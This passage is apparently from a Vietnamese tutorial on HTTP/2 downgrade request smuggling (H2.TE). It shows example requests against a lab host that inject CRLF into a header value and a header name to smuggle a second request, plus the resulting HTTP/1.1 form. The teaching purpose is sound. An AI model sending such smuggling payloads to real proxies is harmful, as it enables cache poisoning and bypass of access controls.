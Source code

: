 #### H2.TE Vulnerability

Một lỗ hổng điển hình là **H2.TE**, xảy ra khi proxy không kiểm tra kỹ các header HTTP/2 trước khi chuyển đổi sang HTTP/1.1. Hãy xem xét một số ví dụ cụ thể:

### 1. Request Header Injection (Chèn giá trị header)

Nếu proxy không kiểm tra ký tự **CRLF** trong giá trị header HTTP/2, kẻ tấn công có thể chèn các yêu cầu độc hại thông qua một request HTTP/2 như sau:

#### Ví dụ:

**HTTP/2 Request:**
```
:method POST
:path /
:authority http2.htb
:scheme http
dummy asd\r\nTransfer-Encoding: chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb
```

**Mô tả:**
- Kẻ tấn công tạo một header `dummy` với giá trị `asd\r\nTransfer-Encoding: chunked`.
- Ký tự `\r\n` không có ý nghĩa đặc biệt trong HTTP/2, nhưng khi proxy chuyển đổi sang HTTP/1.1, nó sẽ chia header thành hai phần.

**Khi được chuyển sang HTTP/1.1:**
```
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48

0
GET /smuggled HTTP/1.1
Host: http2.htb
```

**Phân tích:**
- Proxy thêm header `Content-Length`, nhưng server ưu tiên `Transfer-Encoding: chunked`.
- Kết quả là request tiếp theo `GET /smuggled HTTP/1.1` bị xử lý một cách không mong muốn, gây ra lỗ hổng Request Smuggling.

### 2. Header Name Injection (Chèn tên header)

Một vấn đề tương tự xảy ra nếu proxy không kiểm tra tên header HTTP/2 một cách chính xác.

#### Ví dụ:

**HTTP/2 Request:**
```
:method POST
:path /
:authority http2.htb
:scheme http
dummy: asd\r\nTransfer-Encoding chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb
```
